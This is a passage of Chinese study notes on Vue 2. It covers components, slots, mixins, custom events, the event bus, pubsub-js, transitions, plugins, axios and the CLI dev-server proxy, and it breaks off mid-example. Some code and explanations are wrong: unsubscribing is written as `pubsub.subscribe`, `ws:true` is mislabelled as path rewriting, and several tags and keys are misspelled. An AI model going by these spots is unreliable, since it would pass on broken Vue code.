  - 备注：不使用脚手架时，写法二会导致后续组件不能渲染

- 组件的嵌套

  - 在子组件中可以使用`components`再注册其他子组件，
  - 子组件的组件标签必须写在注册的组件标签中
  - 注意：组件的注册顺序不能颠倒，必须先有子组件，再将子组件注册到父组件上
  - <span style='color:hotpink'>标准化组件开发中：使用app组件管理所有组件，vm之下，所有组件之上</span>


#### vm与vc理解

vm：Vue实例对象              vc：组件实例对象

-  组件本质是一个名为Component的构造函数，由创建组件时生成
-  组件是可复用的vue实例，除`el`配置外，其余基本都有。
-  关于this的指向：
   - 组件配置中：this指向【VueComponent实例对象】
   - `new Vue()`配置中：this指向【Vue实例对象】


- 重要的内置关系
  - `VueComponent.prototype.__proto__ === Vue.prototype`
  - 作用：让 <span style='color:hotpink'>组件的实例对象</span> 可以访问到 <span style='color:hotpink'>Vue原型</span> 上的属性、方法




#### 单文件组件

- 创建`.vue`文件快捷键：  `<v`  + 回车
- 文件名首字母大写
- 组件首字母大写（文件夹、组件名、引入、注册、标签使用）

<span style='color:#DA9B00'>**创建组件：**</span>

- 三个标签：`<template></template>  <script></script>  <style></style>`
- 分别用来写：html标签、js代码、css样式
- 注意点：
  - `<script>`中推荐使用默认暴露将内容暴露出去`export default`
  - 其中的data配置项只能使用函数，name配置项可以设置组件的名称

<span style='color:#DA9B00'>**引入组件**</span>

- `import 组件名 from 组件路径`
- 例：`import App from './App.vue'`      `./` 表示当前文件夹下

```vue
<template>
  <div><!-- 组件的结构，必须使用一个根标签 --></div>
</template>

<script>
//引入其他子组件 最后不需要加 .vue后缀
import Student from './Student';
    
// 组件交互相关的代码(数据、方法等等)
export default {
    name:'School',      //定义组件名
    data(){
        return {
            name:'吴老板'   //数据
        }
    },
};
</script>

<style>
/* 组件的样式  与css书写一致 */
</style>
```




#### [Vue脚手架CLI](https://cli.vuejs.org/zh/)

- Vue脚手架是Vue官方提供的标准化开发工具(开发平台)
- 前提：使用前必须有<span style='color:hotpink'>node和npm相关知识基础</span>（更改npm镜像下载源，否则下载缓慢）


##### 使用说明：

1. 第一次使用时：<span style='color:hotpink'>全局安装</span>脚手架包`@vue/cli`
   - `npm install -g @vue/cli`
2. 切换到要创建项目的目录，然后<span style='color:hotpink'>使用命令创建项目</span>
   - `vue create  xxxx`      xxxx为项目名
   - `vue create .`      .表示要在当前文件下直接创建项目
   - 此时会出现选择：vue的版本 (bable语法转换、eslint语法检查)
3. 在项目文件下 启动项目
   - `npm run serve`
   - `vue ui`以图形化界面形式打开项目
4. <span style='color:hotpink'>关闭项目的本地调试</span>
   - `ctrl + c`    确认yes
   - 修改配置文件后，必须关闭并重启服务，否则可能无效


##### <span style='color:#DA9B00'>脚手架结构分析</span>



- 项目文件夹

  - babel.config.js        //负责语法转换，如想配置参考官网，默认不需要修改

  - package.json          //应用包配置文件，包名、版本号、依赖、短命令

    - `serve` ：由vue创建一个服务器，运行项目           `npm run serve`
    - `build`：把整个工程打包时，全部转化为浏览器可识别文件(html、css、js)       `npm run build`
    - `lint`：语法检查，一般情况下不开启，可以在所有工作完成后检查开启一次        `npm run lint`

  - package.lock.json    //包版本控制文件，记录依赖包的版本和下载地址

  - README.md        //应用说明文档

  - .gitignotre           //git配置 忽略文件

  - src文件夹

    - main.js     //入口文件，引入vue和App组件 并把App组件放入容器中
    - App.vue    //一人之下万人之上的组件
    - assets文件夹     //存放页面的静态资源，图片/视频/音频
    - components文件夹  //存放各种组件

  - public文件夹

    - 网站的页签图标  .ico图标
    - index.html         //页面
      - 在`index.html`文件中不需要引入 `main.js`，由脚手架自动处理

    ```html
    <!--   <%= BASE_URL %>    index.html中就表示 public文件夹 -->
    <link rel="icon" href="<%= BASE_URL %>favicon.ico">
    ```

    


##### vue的引入版本

- vue完整版本身包含 **模板解析器** 和 **vue核心**
- vue.runtime.xxx.js 是运行版的 vue，只包含核心功能
- 因为 vue.runtime.xxx.js  没有模板解析器，所以无法使用template配置项，需要使用render函数


- 脚手架版本的vue默认是简洁版的vue，不包含模板解析器，由脚手架编译解析

- vue版本配置的位置：node--vue--types--package.json

- vue文件位置：node--vue--dist----

  


##### render配置项

- render(){}

- 是一个函数，需要有return返回值，接收参数1：创建元素，参数2：元素内的内容

- 简写：使用箭头函数、简写去return、只传一个组件

  


##### webpack相关配置

- Vue脚手架默认隐藏了所有webpack相关的配置，
- 查看方法：`vue inspect > output.js`    （仅仅是输出看一下，修改无效）

**更改方法：**

- 参考脚手架官网，配置文件

- 与src文件平级，创建vue.config.js，根据官方文档修改文件

- 其中的各单配置项，要么不写，要么写完整，否则报错

- `lintOnSave:false;`      //关闭语法检查，与pages平级

- ```js
  module.exports = {
      lintOnSave: false //关闭语法检查
  }
  ```


### mixin混入

- 功能：可以把多个组件共用配置提取出来，提高复用率

- 使用方式：

  - <span style='color:hotpink'>第一步：定义混入</span>，在main.js同级目录下创建js文件

    - 将多个组件的共同部分放在创建的js文件夹中，并进行暴露，推荐：分别暴露，方便自定义引入
    - 所有的组件配置项都可以往js文件中写

  - ```js
    //定义mixin混入模块 采用分别暴露
    // 暴露abc
    export const abc = {
        data() {
            return { name: '吴老板' }
        },
        methods: {
            show() {
                console.log('我是mixin');
            }
        },
    };
    // 暴露xyz
    export const xyz = {
        mounted() {
            console.log('我是mounted，挂在完毕');
        },
    }
    ```

  - <span style='color:hotpink'>第二步：使用混入</span>

    - 引入混入模块(分别暴露的引入方式)  `import {xxx,xxx,xxx} from '混入的文件路径'`  

    - 局部混入：在对应的组件中，使用`mixins:[xxx,xxx,xxx]`注册一下即可使用

      - ```vue
        <template>
          <div>
            <!-- 使用混入提供的 methods方法 和 data数据 -->
            <p @click="show">{{ name }}</p>
          </div>
        </template>
        
        <script>
        // 引入 局部混入 abc为分别暴漏的混入名
        import { abc } from "./hunru";
        export default {
          //注册混入 
          mixins: [abc],
        };
        </script>
        ```

    - 全局混入：在`main.js`入口文件中引入，使用`Vue.mixin(xxx)    Vue.mixin(yyy)`分别注册使用

      - ```js
        import Vue from 'vue'
        import App from './App.vue'
        // 引入mixin混入
        import { abc, xyz } from './hunru'
        
        // 注册全局混入 abc 和 xyz
        Vue.mixin(abc);
        Vue.mixin(xyz);
        // 取消默认的Vue开发版本提示
        Vue.config.productionTip = false;
        new Vue({
            render: h => h(App),
        }).$mount('#app')
        ```

        

  - <span style='color:hotpink'>注意：</span>

    - 数据如果发生冲突时，以组件自身的内容为准，生命周期钩子除外
    - 生命周期函数重复时，先调用混入的，再调用组件自身的，两者都生效


### Vue插槽

- 作用：让父组件可以向子组件指定位置插入不同的html结构，也是一种组件间通信方式，适用于父组件 ==》子组件

- 时机：在父组件中解析完毕后再插入到子组件的`slot标签`中

  - 在父组件使用子组件时，在子组件标签中追加内容放入到插槽中。
  - 插槽结构在父组件中解析后，再放入子组件，可以在父/子组件中控制样式

- 默认插槽

  - 直接写在子组件的标签体内部（标签体内容）
  - 子组件中使用`<solt></solt>`占位
    - slot占位符中的内容为默认值
    - 只有当父组件的标签体内容为空时，界面才显示slot占位符中的内容

  ```html
  <!-- 父组件App中使用子组件Two -->
  <template>
    <div>
      <Tow>
        <div>写在子组件标签里的内容会放入插槽中</div>
      </Tow>
    </div>
  </template>
  
  <!-- 子组件Two -->
  <template>
    <div>
      <p>我是公共标题</p>
      <!-- 定义插槽/挖坑 -->
      <slot>
           <h2>当没有放入内容时,我才显示</h2>
           <h3>当没有放入内容时,我才显示</h3>
       </slot>
    </div>
  </template>
  ```

- 具名插槽（给插槽起名字）

  - 为子组件的`solt`标签配置name属性
  - 子组件标签体内容对应标签配置 slot属性，值与name的值对应
  - 注意：
    - 标签体内容中可以多次使用同一个 slot属性，会在对应插槽中追加内容
    - 可以使用`</template>`标签，节省一层不必要的DOM结构
      - 如果使用这个标签，还可以使用`v-slot:two`,而不用`slot="two"`
      - Vue3中推荐使用 `v-slot:two` 

  ```html
  <!-- 父组件中，使用slot标签，确定使用的插槽 -->
  <template>
    <div>
      <Tow>
        <!-- 在一个子标签中，使用多个插槽 -->
        <template slot="one">
          <h1>根据slot属性去找第一个插槽</h1>
        </template>
        <template v-slot:two>
          <h1>根据slot属性去找第二个插槽</h1>
        </template>
      </Tow>
    </div>
  </template>
  
  <!-- 子组件中，为slot标签定义name属性 -->
  <template>
    <div>
      <p>我是公共标题</p>
      <!-- 定义插槽/挖坑 -->
      <slot name="one">我是第一个插槽坑</slot>
      <slot name="two">我是第二个插槽坑</slot>
    </div>
  </template>
  ```

- 作用域插槽

  - 理解：数据在子组件身上，但根据数据生成的结构需要父组件(组件使用者)决定。
  - 实现：相同的数据显示不同的结构
  - 父组件中必须使用 template标签，使用 scope 属性接收数据
    - 接受的数据是：由所有传递过来的数据组成的对象
    - 可以使用 ES6的解构赋值语法

  ```html
  <!-- 父组件 -->
  <template>
    <div>
      <Tow>
        <!--  收到的数据是对象的格式，可以直接使用games.color获取 -->
        <template scope="games">
          <ol>
            <li v-for="(g, index) in games.game" :key="index">{{ g }}</li>
          </ol>
        </template>
      </Tow>
      <Tow>
        <template scope="games">
          <ul>
            <li v-for="(g, index) in games.game" :key="index">{{ g }}</li>
          </ul>
        </template>
      </Tow>
    </div>
  </template>
  
  <!-- 子组件 -->
  <template>
    <div>
      <p>我是公共标题</p>
      <!-- 定义插槽/挖坑  并把该组件中的数据传递到插槽中,可以传递多个数据 -->
      <slot :game="games" :color="color">我是第一个插槽坑</slot>
    </div>
  </template>
  
  <script>
  export default {
    name: "Two",
    data() {
      return {
        // 数据在子组件中
        games: ["王者", "cf", "csgo"],
        color: ["red", "yellow", "pink"],
      };
    },
  };
  </script>
  ```


### 组件间通信(总结)

- 父组件 => 子组件
  - props配置    单向数据流
  - this.$parent  访问父组件
  - Vue插槽   向子组件中插入的结构，可以使用父组件中的数据
- 子组件 => 父组件
  - 借助自定义事件 父组件中为子组件绑定事件，子组件中$emit()触发事件并传递数据
  - slot 插槽占位，
  - this.$children  访问子组件
- 任意组件间通信
  - $bus
  - 访问根实例 vm（$root 属性），在任意组件中都可以访问到vm上的内容
  - 其他采用订阅与发布模式的  第三方插件库
    - VueX
    - pubsub.js


#### 组件的自定义事件(子-父)

1. 一种组件间通信的方式，适用于：子组件 ==> 父组件

- js原有的事件(内置事件)
  - click、keyup...
  - 使用对象：给html元素使用
- 组件自定义事件
  - 使用对象：组件
  - 适用于：子组件向父组件传值
  - 使用场景：A是父组件，B是子组件，B想给A传数据，那么就要在A中给B绑定自定义事件(事件回调在A中)
- <span style='color:hotpink'>`this.$emit("事件名",数据)`</span>触发事件,
  - 这里的this指代vc实例对象，在子组件中触发父组件的事件
  - 参数直接写事件名即可，**需要加引号**
  - 传递其他参数，在事件名后用用逗号隔开，接着写即可，例：`this.$emit("shijian1",this.name)`
    - 当需要传递多个参数时，继续在后面用逗号分隔，追加参数即可
    - 未知个数的参数的接收，使用**ES6语法**，在接收参数时，使用（one,...a）
      - 这里的a就是一个数组，内容是参数的每一项
      - a的命名，**一般用`params`**
- <span style='color:hotpink'>`this.$refs.组件名.$on()`</span>：将事件绑定给指定的子组件
  - 在父组件中，为子组件标签进行 **ref绑定**
  - 参数1：为子组件绑定的事件名，**需要加引号**
  - 参数2：执行父组件中methods的回调函数名，**需要加`this.`**表示当前父组件的事件
    - 回调函数应写在methods中
    - 若直接写在$on中，回调函数应使用箭头函数，**this指向问题**
  - 例：`this.$refs.组件名.$on("shijian1",this.demo)`
  - 优点：
    - 可以实现事件的延时绑定，具有更好的灵活性
- <span style='color:hotpink'>`this.$refs.组件名.$once()`</span>：将事件绑定给指定的子组件，且事件只能触发一次
  - 与$on() 作用和使用方法一致，但回调函数只能执行一次
  - 或者在标签中添加事件修饰符`.once`
- <span style='color:hotpink'>`this.$off()`</span>：
  - `this.$off("事件名")`：解绑一个自定义事件
  - `this.$off(["事件1","事件2",...])`：解绑多个自定义事件
  - `this.$off()`：不传参数时，解绑所有自定义事件
- 注意：
  - 组件标签中的事件默认都为自定义事件
  - 可以使用事件修饰符`.native`,表示绑定原生DOM事件

**使用方法：**

-  方法一：在父组件中给子组件标签绑定事件`<Dome @shijian1="test">`或`<Dome v-on:shijian1="test"/>`

```vue
<!-- 在父组件中，为子组件标签绑定事件，事件回调demo写在父组件的methods配置中 -->
<Student v-on:shijian1="demo"></Student>
<script>
  export default {
     name:"App",
     meyhods:{
        //当接收的参数数量过多或数量未知时，可以使用对象进行传递
        //或者可以使用ES6语法接收，...params是剩余参数组成的数组
        demo(data,...params){
           console.log("子组件传递过来的数据："+data);
           console.log(params);
        }
     }
  }
</script>

<!-- 在子组件中触发 shijian1 事件 -->
<button @click="zibtn"></Student>
<script>
  export default {
     data(){
        return{
           name:"123"
        }
     },
     methods:{
        zibtn(){
           //当传递多个参数时，用逗号隔开即可
           this.$emit("shijian1",this.name,44,33,22,11)
        }
    }
  }
</script>
```


-  方法二：在父组件中，使用`$ref.xxx.$on("shijian1",回调函数)`

```vue
<!-- 在父组件中，使用$ref.xxx.$on("shijian1",回调函数)   为子组件标签绑定事件 -->
<Student ref="student"></Student>

<script>
   export default {

     data(){
        return{
           name:"123"
        }
     },
      methods:{
         demo(data){
            console.log("子组件传递的值："+data)
         }
      },
      //mounted(){} 生命周期回调函数，当页面加载完成后执行
      //$on 将事件绑定给它，参数1：事件名，参数2：事件回调
      mounted(){
         this.$refs.student.$on("shijian1",this.demo)
      }
   }
</script>

<!-- 在子组件中触发 shijian1 事件 -->
<button @click="zibtn"></Student>
<script>
  export default {
     methods:{
        zibtn(){
           this.$emit("shijian1",this.name)
        }
    }
  }
</script>
```


#### 全局事件总线 `$bus`

1. 安装全局事件总线：

   ```js
   // 在main.js入口文件中
   // 当创建vue实例即vm时，就为他绑定一个自定义的值，可以借助它实现数据传递，并能访问到所有的方法
   new Vue({
      el:"#app",
      render: h => h(App),
      // 利用生命函数钩子，在vue开始创建时就绑定，否则后续渲染使用数据就会出现问题
      beforeCreate(){
            // 安装全局事件总线，$bus就是当前应用的vm
            Vue.prototype.$bus=this;
      },
   })
   ```

2. 使用事件总线

   - 接收数据：A组件想接收数据，就在A组件中**给`$bus`绑定自定义事件**，事件的回调留在A组件自身

   ```js
   methods(){
      // 事件回调写在methods中，或者直接写在事件绑定的回调中
      // 当事件回调写在绑定时，需要使用箭头函数(否则this指向vm)，注意this指向问题
      demo(data){.....}
   }
   ....
   mounted(){
      // mounted 生命函数钩子，当页面挂在完毕，给他绑定自定义事件
      // xxx 是自定义事件名，this.demo事件回调(建议写在methods中，this指向当前vc)
      this.$bus.$on("xxx",this.demo);
   }
   ```

   - 提供数据：<span style='color:hotpink'>`this.$bus.$emit("xxx",数据)`</span>
     - this指向当前组件实例对象
     - $bus为组件实例对象原型链上的方法
     - $emit为**触发自定义事件**的函数，xxx为事件名，数据即触发事件时携带的参数

3. **解绑事件**

   - 因为事件绑定在vm身上，难以被销毁，所以需要当创建它的组件实例销毁时进行销毁
   - 最好在`beforeDestroy`钩子中，用`$off`解绑<span style='color:hotpink'>当前组件所用到的事件</span>,
   - 例：`this.$bus.$off("xxx")`,<span style='color:hotpink'>不写参数代表解除所有的事件,其他组件事件也会失效！</span>


#### 消息订阅与发布

- 原生js不支持消息的订阅与发布，需要使用第三方库

**pubsub.js库**

- 实现任意框架下的消息订阅与发布，任意组件间通讯
- 安装：`npm i pubsub-js`
- 引入：`import pubsub from "pubsub-js"` 
  - pubsub是一个函数，提供了一些方法
  - 发布消息和接收消息的组件中都需要引入这个（注意带引号）
- 使用：
  - **订阅消息：写在接收消息的组件的 mounted生命周期钩子中**
    - `this.pubId=pubsub.subscribe("hello",function(msgName,data){ .... })`
    - 当有人发布 hello消息时，就执行相应的回调函数( hello是自定义事件名)
    - this.pubId保存这个订阅消息的id，用于取消订阅。pubId命名自定义
    - 函数的参数有两个
      - 参数1：消息名
      - 参数2：数据内容
  - **发布消息：写在发布消息的组件上**
    - `pubsub.publish("hello",数据)`
    - 当写上这句代码时，就触发hello事件的回调函数，可以携带参数
  - **取消订阅：写在注册接收消息的组件中  beforeDestroy生命周期钩子中**
    - `pubsub.subscribe(消息的id)`
    - 消息的id，根据订阅时保存的设置，此处应为`this.pubId`
- 注意：
  - 普通函数时，pubsub的回调函数的this指向undefined
  - 使用箭头函数则指向vc，或者将回调写在 methods配置中( 和事件总线类似 )




### 过渡与动画的封装

- 作用：在插入、更新和移除DOM元素时，在合适的时候给元素添加合适的类名

- 需要使用动画或过渡的标签使用`<transition></transition>`标签包裹，该标签不显示在页面上

- 标签

  - transiton标签不配置name属性时，默认`.v-`开头
  - transiton标签配置name属性时，样式标识使用`.name值-`开头
  - `appear`属性，当存在该属性时会在页面刚加载时显示一次动画
  - 一个transiton标签，内部多个元素运用同个动画时，需要使用`transition-group`,且每个元素都要指定key值

- 样式：

  - v-enter进入起点          v-enter-active 进入过程中          v-enter-to 进入完成            
  - v-leave离开起点            v-leave-active 离开过程中          v-leave-to 离开完成   
  - 实际需要使用类名根据需要用就行
    - 如果使用动画，一般只需要使用两个过程就行
    - 如果使用过度，则需要使用

  ```css
  <template>
    <div>
      <button @click="isshow = !isshow">点我切换</button>
      /* 单个动画元素 */
      <transition name="elo"  :appear="true">
        <h1 v-show="isshow">我是大标题</h1>
      </transition>
      /* 多个动画元素 */
      <transition-group name="elo"  :appear="true">
        <h1 v-show="isshow" key="1">我是大标题</h1>
        <h1 v-show="!isshow" key="2">我是大标题2</h1>
      </transition>
    </div>
  </template>
  
  <script>
  export default {
    name: "App",
    data() {
      return {
        isshow: true,
      };
    },
  };
  </script>
  
  <style scoped>
  /* 使用动画 */
  h1 {
    height: 100px;
    line-height: 100px;
    width: 500px;
    background-color: rgb(84, 177, 55);
  }
  @keyframes donghua {
    0% {
      transform: translateX(-600px);
    }
    100% {
      transform: translateX(0px);
    }
  }
  .elo-enter-active {
    animation: donghua 2s linear;
  }
  .elo-leave-active {
    animation: donghua 2s linear reverse;
  }
  
  
  /* 使用过渡 */
  h1 {
    height: 100px;
    line-height: 100px;
    width: 500px;
    background-color: rgb(84, 177, 55);
    transition: all 1s linear;
  }
  
  .elo-enter,
  .elo-leave-to {
    transform: translateX(-600px);
  }
  .elo-leave,
  .elo-enter-to {
    transform: translateX(0px);
  }
  </style>
  ```

  


### Vue插件

- 功能：用于增强Vue，使用插件后 就可以在所有的组件中使用插件提供的内容

- 本质：包含`install`方法的一个对象，`install`的第一个参数是Vue，第二个以后的参数是插件使用者传递的数据

- 定义插件：与main.js平级，创建js文件

  - 可以添加全局过滤器、全局指令、全局混入、全局过滤器、添加原型实例方法，基本无敌！！！

  - ```js
    export default {
        install(Vue) {
            // 第一个参数是 Vue，借助它可以做很多事
            console.log(Vue);
            // 定义全局指令
            Vue.directive('fbind', {
                // 具体操作。。。
            })
            // 定义全局混入
            Vue.mixin({
                //所有vue实例对象的配置都可以使用
            })
            // 给Vue原型上添加方法
            Vue.prototype.hello = () => {
                //hello方法的内容。。
            }
        }
    }
    ```

    

- 使用插件：

  - 在`main.js`文件中引入插件 <span style='color:hotpink'>`import 自定义插件名 from '插件路径'`</span>
  - 再 <span style='color:hotpink'>Vue.use(插件名)</span>,普通的不依赖vue的库不需要use。
  - 可以在所有地方使用插件提供的内容
  - 


### 配置代理

- 借助vue脚手架解决ajax跨域问题，开启代理服务器

#### axios使用

- 其他函数书写方法，看ajax

- 使用步骤：

  ```js
  // 1.下载axios  
  npm i axios
  // 2.在main.js中引用  并 绑定到Vue原型上
  import axios from "axios";
  Vue.prototype.$axios = axios;
  // 3.可以在任意组件中使用 $axios
  this.$axios({...})
  ```

  

  使用vue触发ajax发请求的函数

  - ```js
    this.$axios({
      url: 'http://127.0.0.1:8080/api',
      method: 'post',
      params: {
        id: '007'
      },
      data: {
        name: '小月'
      }
    }).then(res => {
       console.log('请求结果：', res);
    }).catch(function(err){
       console.log(err);
    });
    ```


#### vue-resource（淘汰）

```js
// 安装    npm i vue-resource
// 引入 main.js 中
import Vue from 'vue'
import vueResource from 'vue-resource'
// 使用Vue插件
Vue.use(vueResource)
```


#### v-cli开启代理服务器

> 仅本地生效果，打包后放在服务器仍需借助 nginx

##### 方法1：

- 进行Vue配置，在项目根目录创建`vue.config.js`文件

- 本地请求发送就发送到本地代理服务器即可，由本地代理服务器进行转发，带上路径

- 修改配置文件后，需要重启代码，才会生效

- 相当于：告诉开发服务器将任何未知请求 (没有匹配到静态文件的请求) 代理到指定服务器

- **缺点**：

  - 当项目文件中存在与代理请求文件冲突时，代理失效
  - 无法同时代理多个服务器请求
  - 不灵活，无法控制是否走代理(本地)

- ```js
  module.exports = {
      //关闭语法检查
      lintOnSave: false,
      devServer: {
          //开启代理服务器，告诉浏览器代理转发发给谁，不需要带具体路径
          proxy: "http://127.0.0.1",
          //配置npm run serve时使用的端口号
          port:8080    
      }
  }
  ```

- ```js
  module.exports = {
      //关闭语法检查
      lintOnSave: false,
      devServer: {
          port:8888, // 设置前端项目的端口号，npm run serve时使用的端口号
          //开启代理服务器，告诉浏览器代理转发发给谁，不需要带具体路径
          proxy: {
             // 当页面中请求路径是 /api 开头的请求都会走这里
              '/api':{
                  target: "http://127.0.0.1", // 服务器端url 
                  ws:true, // 请求路径重写
                  pathRewrite:{   // 路径重写规则
                      '^/api':''  // 将/api开头的替换为 ''
                  },
                  changeOrigin:true,  // 解决跨域问题
              }
          }
      }
  }
  ```

  





##### 方法2（推荐）：

- 请求资源是需要加请求前缀

- 优点：

  - 可以配置多个请求代理
  - 能够隐藏自己的身份，请求头的host信息

- ```js
  module.exports = {
    // 两种开启代理服务器的方法不能同时使用   
    devServer: {
      proxy: {
       // "/api" 表示代理服务器请求的前缀，根据需要自定义
